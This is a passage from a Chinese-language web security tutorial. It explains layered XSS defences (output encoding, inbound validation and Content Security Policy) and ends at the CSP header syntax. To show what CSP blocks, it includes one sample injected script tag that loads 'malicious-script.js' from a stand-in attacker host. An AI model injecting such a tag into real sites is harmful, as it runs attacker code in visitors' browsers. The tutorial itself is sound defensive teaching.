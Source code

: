 ### 使用哪一种防治策略

编码应该是你防御XSS攻击的首选，因为它非常适用于净化数据使之不被作为代码被编译。像前面有些例子中解释的一样，编码需要以校验作为补充。编码和校验应该设立在离开阶段，因为只有当输入包含进页面中时你才知道为哪一类上下文进行编码和校验。

作为防御的第二道防线，你应该使用进站校验对明显无效的数据规范化或者拒之门外，比如使用`javascript:`协议的超链接。虽然它不能被证明是完全安全有效的，但是当编码和校验因为一些错误没有被很好执行时，这仍然是个不错的预防措施。

如果这两道防线一直在投入使用，那么你的网站能够很好的远离XSS攻击。但是鉴于创建和维护一个网站的复杂性，仅仅采取验证输入的方式来实现全方位的保护还是比较困难的。作为第三道防线，你应该利用起CSP（Content Security Policy），也就是我们接下来要讲解的内容

### Content Security Policy (CSP)

只使用验证输入来防止XSS攻击的劣势在于即使存在一丝的漏洞也会使得你的网站遭到攻击。最近的一个被称为Content Security Policy（CSP）的标准能够减少这个风险。

CSP对你用于浏览页面的浏览器做出了限制，以确保它只能从可信赖来源下载的资源。*资源*可以是脚本，样式，图片，或者其他被页面引用的文件。这意味着即使攻击者成功的在你的网站中注入了恶意内容，CSP也能免于它被执行。

CSP遵循下列规则

- **不许允不可信赖的来源**：只有来自明确定义过的可信赖来源的外链资源才可以被下载
- **不允许内联资源**：行内脚本和内联CSS不允许被执行。
- **不允许eval函数**：Javascript的`eval`函数不可以被使用

#### CSP实战

在下面的例子中，一个攻击者成功在一个页面中注入了恶意代码：

{% highlight html %}
<html>
Latest comment:
<script src="http://attacker/malicious-script.js"></script>
</html>
{% endhighlight %}

在恰当配置CSP的情况下，浏览器不会加载和执行`malicious-script.js`，因为`http://attacker`域名不在可信赖的来源集合中。即使在这个例子中网站没能成功的验证输入的安全性，CSP策略也能防止来自因为漏洞引起的损害。

退一步说纵然攻击者注入了行内脚本代码而不是外链一个文件，恰当的CSP策略也能拒绝行内脚本的执行来防止因为漏洞引起的损害。

#### 如何启用CSP

默认情况下浏览器并不强制启用CSP。如果需要在你的网站上启用CSP，页面必须在服务器返回时添加额外的HTTP头：`Content-Security-Policy`。任何拥有这个返回头的页面即表示它有自己的安全策略，浏览需要特别对待，也即告诉浏览器请支持CSP。

因为安全策略是附属于每一个HTTP返回中，所以对服务器来说可以逐个页面的设置安全策略。通过在每一个返回中添加统一的CSP头来使得整个站点都可以采取同一个策略。

`Content-Security-Policy`的值是定义了单个或多个能影响你站点安全策略的字符串。字符串的语法会在接下来的内容进行描述。

*注意：这一节中为了更清晰的展现，例子中的头(header)在书写时我们使用换行和缩进，在实际的头中请勿这么书写*

#### CSP语法

CSP头的语法如下：

{% highlight javascript %}
Content-Security-Policy:
    directive source-expression, source-expression, ...;
    directive ...;
    ...
{% endhighlight %}
